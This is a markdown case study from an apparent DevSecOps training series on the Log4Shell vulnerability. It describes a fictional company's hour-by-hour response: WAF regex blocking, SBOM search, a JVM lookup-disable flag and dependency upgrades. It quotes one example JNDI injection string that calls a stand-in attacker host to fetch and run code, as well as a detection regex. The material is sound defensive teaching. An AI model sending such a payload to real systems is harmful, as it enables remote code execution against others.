

# Case Study 02: The Log4j (Log4Shell) Zero-Day Dependency Crisis

[⬅️ Prev: Leaked AWS Key](./01_Scenario_Hardcoded_AWS_Key_Leaked_in_Git_Commit.md) | [Back to Scenarios](./README.md) | [Next: Malicious Docker Base Image ➡️](./03_Scenario_Malicious_Docker_Base_Image_Supply_Chain.md)

---

### 1. Incident Context & The Threat
On December 9, 2021, the cybersecurity world faced **CVE-2021-44228 (Log4Shell)**—a catastrophic CVSS 10.0 Remote Code Execution flaw in the Apache Log4j Java logging framework.
Because Log4j allowed JNDI (Java Naming and Directory Interface) lookups inside formatted log strings, an unauthenticated attacker could send:
`${jndi:ldap://evil-c2.com/exploit}`
into any user-controlled input (an HTTP User-Agent header, search box, or login field). When Log4j logged the string, it automatically reached out to the attacker's server, downloaded a compiled Java class, and executed arbitrary root commands.



---

### 2. DevSecOps Enterprise Crisis Playbook

Contoso Corporation operated over 250 microservices across AWS and on-premises Kubernetes. Here is the exact crisis response strategy executed:

#### Hour 0 to 1: Perimeter WAF Virtual Patching
Before developer code could be rewritten and redeployed, the infrastructure team deployed a virtual patch at the web application firewall (Cloudflare / AWS WAF):
```text
# Regex blocking JNDI string variations in all headers, URI paths, and query parameters
(?i)\$\{jndi:(?:ldap|rmi|dns|nis|iiop|corba|nds):.*\}
```

#### Hour 1 to 2: Querying the Centralized SBOM
Using their central Software Bill of Materials (SBOM) catalog (Dependency-Track / Trivy), engineers searched for `org.apache.logging.log4j:log4j-core`:
- **Result**: Identified 38 microservices running vulnerable versions ($< 2.17.1$).

#### Hour 2 to 4: Hotfix Mitigation via Environment Variables
For services that could not be recompiled immediately, Kubernetes deployment manifests were updated with the JVM disable flag:
```yaml
env:
  - name: LOG4J_FORMAT_MSG_NO_LOOKUPS
    value: "true"
```

#### Hour 4 to 8: Automated Dependency Pull Request Campaign
Triggered automated Dependabot/Renovate pipelines bumping `log4j-core` to `2.17.1` across all 38 repositories, triggering CI regression suites, and deploying clean signed container images to production.
